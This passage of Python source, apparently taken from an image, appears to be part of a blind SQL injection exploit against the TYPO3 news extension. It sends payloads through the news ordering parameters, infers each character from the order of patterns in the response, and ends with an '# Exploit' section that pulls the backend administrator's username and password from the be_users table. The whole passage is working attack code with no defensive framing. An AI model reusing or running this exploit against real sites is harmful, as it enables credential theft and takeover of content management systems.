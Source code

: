 ```
            if test(payload):
                string += char
                print(string)
                break
        else:
            raise ValueError('Char was not found')
    return string
def test(payload):
    response = session.post(
        URL,
        data=data(payload)
    )
    response = response.text
    return response.index(PATTERN0) &lt; response.index(PATTERN1)
def data(payload):
    return {
        'tx_news_pi1[overwriteDemand][order]': payload,
        'tx_news_pi1[overwriteDemand][OrderByAllowed]': payload,
        'tx_news_pi1[search][subject]': '',
        'tx_news_pi1[search][minimumDate]': '2016-01-01',
        'tx_news_pi1[search][maximumDate]': '2016-12-31',
    }
# Exploit
print("USERNAME:", blind('username', 'be_users', 'uid=1', string.ascii_letters))
print("PASSWORD:", blind('password', 'be_users', 'uid=1', FULL_CHARSET))
```
